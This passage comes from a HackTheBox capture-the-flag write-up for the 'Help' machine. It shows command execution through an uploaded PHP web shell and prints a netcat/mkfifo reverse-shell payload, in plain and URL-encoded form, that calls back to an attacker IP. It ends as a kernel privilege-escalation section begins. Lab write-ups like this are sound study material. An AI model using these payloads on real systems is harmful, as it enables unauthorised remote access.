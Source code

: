 <br>
`http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php?cmd=whoami`
![](/images/hackthebox/help/20.png)
#### It's working, let's get a reverse shell, I used this payload : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f` (url encoded)
`http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.xx.xx%201337%20%3E%2Ftmp%2Ff`
![](/images/hackthebox/help/21.png)
<br>
<br>
![](/images/hackthebox/help/22.png)
#### We owned user.
<br>
<hr>
### Kernel Exploit, Privilege Escalation and Root Flag
#### Privilege escalation on this machine was very easy, just a kernel exploit. One of the first things to check after getting a shell is the system info :
`uname -a`